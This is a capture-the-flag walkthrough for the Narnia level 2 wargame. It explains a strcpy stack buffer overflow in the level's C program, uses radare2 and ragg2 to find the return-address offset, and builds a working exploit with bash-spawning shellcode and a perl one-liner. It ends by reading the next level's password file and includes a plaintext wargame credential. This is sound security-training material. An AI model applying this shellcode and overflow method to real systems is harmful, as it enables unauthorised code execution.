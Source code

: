 # username / password
narnia2 / 5agRAXeBdG
# concept
* stack buffer overflow via binary command arguments
# method of solve
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}

```
* according to the sourcecode, the program saves the command arguments to the buf variable:
```
strcpy(buf,argv[1]);
```
* the `buf` variable is allocated 128 bytes:
```
char buf[128];
```
* that means that user input in the binary command argument that exceeds 128 characters will overflow the stack buffer and overflow into other memory addresses
* we can test how many bytes we need to send to the binary by creating a pattern out of the user input using the `ragg2` binary
```
ragg2 -P 150 -r
```
* we can feed this command's output into `radare2`'s input to debug the binary:
```
r2 -d /narnia/narnia2 AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAA
```
* then run the binary, crash it, and see what value ends up in the `eip` memory register
```
dc      # run the binary with the command arguments
dr      # examine the memory register contents
```
* we see the following hex contents in the `eip` register: `0x74414173`
* to figure out what the offset is, we can run this `ragg2` command
```
ragg2 -q 0x74414173
```
* this lets us know that the offset is `132`
* we can use the same shellcode from the previous level to get a `bash` shell on this this binary:
`\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80`
* we need to keep in mind that the length of the shellcode is `33` bytes
* in `r2`, we can see where the command argument ended up on the memory stack
```
px @ esp-150   # see the contents the 150 bytes before the esp register
```
* We can see that the first two `A` characters show up in the last portion of the `0xffffd29a` memory address
* that means we can put the a couple of `A` characters in the to fill out the `0xffffd2aa` memory address, then put shellcode in `0xffffd2aa` memory address, then fill the rest of the offset out until the `eip` register, then put the `0xffffd2aa` memory address in the `eip` register to jump to the shellcode and execute it
* so the total number of bytes we send to the binary is `2 + 33 + 97 + 4 = 136`
```
2   # 'A's
33  # shellcode
97  # padding
4   # payload (points to the shellcode)
----
136 bytes
```
* we can send this whole sequence to the binary with this perl command:
```
/narnia/narnia2 $(perl -e 'print "A" x 2 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" . "A" x 97 . "\xaa\xd2\xff\xff"')
```
* this gets us the bash shell. All that's left is to read the password
```
cat /etc/narnia_pass/narnia3
```
